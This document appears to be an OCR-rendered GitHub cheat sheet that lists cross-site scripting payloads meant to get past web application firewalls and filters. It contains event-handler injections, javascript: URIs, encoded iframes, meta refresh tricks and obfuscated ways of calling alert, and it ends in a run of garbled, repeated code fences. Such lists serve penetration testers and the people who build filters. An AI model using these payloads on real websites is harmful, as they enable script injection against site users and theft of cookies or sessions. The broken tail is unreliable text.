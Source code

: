 ### WAF ByPass Strings for XSS 
-   `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">` -   `<Video> <source onerror = "javascript: alert (XSS)">`
-   `<Input value = "XSS" type = text>` -   `<applet code="javascript:confirm(document.cookie);">`
-   `<isindex x="javascript:" onmouseover="alert(XSS)">` -   `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
-   `"><img src="x:x" onerror="alert(XSS)">` -   `"><iframe src="javascript:alert(XSS)">`
-   `<object data="javascript:alert(XSS)">` -   `<isindex type=image src=1 onerror=alert(XSS)>`
-   `<img src=x:alert(alt) onerror=eval(src) alt=0>` -   `<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
-   `<iframe/src="data:text/html,<svg onload=alert(1)>">` -   `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
-   `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script` -   `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
-   `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>` -   `<form><a href="javascript:\u0061lert(1)">X`
-   `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>` -   `<style>//*{x:expression(alert(/xss/))}//<style></style>`
 On Mouse Over​:
 -   `<img src="/" =_=" title="onerror='prompt(1)'">`
-   `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe` -   `<script x> alert(1) </script 1=2`
-   `<form><button formaction=javascript&colon;alert(1)>CLICKME` -   `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
-   `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>` -   `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>`
 ### Filter Bypass Alert Obfuscation
 -   `(alert)(1)`
-   `a=alert,a(1)` -   `[1].find(alert)`
-   `top[“al”+”ert”](1)` -   `top[/al/.source+/ert/.source](1)`
-   `al\u0065rt(1)` -   `top[‘al\145rt’](1)`
-   `top[‘al\x65rt’](1)` -   `top[8680439..toString(30)](1)`
-   `alert?.()` -   `(alert())`
 The payload should include leading and trailing backticks:
 
```
    &#96;`${alert``}`&#96; 
```
`
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```
```